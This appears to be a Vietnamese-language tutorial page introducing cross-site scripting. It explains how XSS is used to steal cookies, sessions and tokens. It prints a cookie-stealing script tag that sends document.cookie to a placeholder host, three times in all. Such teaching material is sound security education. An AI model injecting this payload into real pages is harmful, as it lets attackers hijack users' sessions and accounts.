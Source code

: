 # The largest heading
## The second largest heading
###### The smallest heading
![image](https://user-images.githubusercontent.com/54978467/134615358-41820711-e2dc-4506-9f6a-d4537bd74352.png)

**1. Cross-site scripting XSS là gì?**
> Cross-site scripting (a.k.a XSS) là một lỗ hổng bảo mật web phổ biến và dễ bị tấn công nhất cho phép kẻ tấn công thực thi script trên Client.
`<script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script>`
Thông thường, các cuộc tấn công XSS được sử dụng để vượt qua truy cập và mạo danh người dùng.

Mục đích chính của cuộc tấn công này là ăn cắp dữ liệu nhận dạng của người dùng như:

cookies
session
token
các thông tin khác....
Trong hầu hết các trường hợp, cuộc tấn công này đang được sử dụng để ăn cắp cookie của người khác.

Như chúng ta biết, cookie giúp ta đăng nhập tự động.

Do đó khi cookie bị đánh cắp, ta có thể đăng nhập bằng các thông tin nhận dạng khác.

Và đây là một trong những lý do, tại sao cuộc tấn công này được coi là một trong những cuộc tấn công nguy hiểm nhất.

Tấn công XSS đang được thực hiện ở phía client.

Nó có thể được thực hiện với các ngôn ngữ lập trình phía client khác nhau.

Tuy nhiên, thường xuyên nhất cuộc tấn công này được thực hiện với Javascript và HTML.

2. XSS được thực hiện như thế nào?
Tấn công XSS là gửi và chèn script độc hại, những mã độc này được viết bằng các ngôn ngữ ở client như Javascript, HTML, CSS VBScript,... Tuy nhiên phổ biến nhất là Javascript và HTML. Có rất nhiều các thức để thực hiện cuộc tấn công này, phụ thuộc vào nhiều trường hợp khác nhau.

a. Nguyên nhân
[<script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script>]

<script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script>
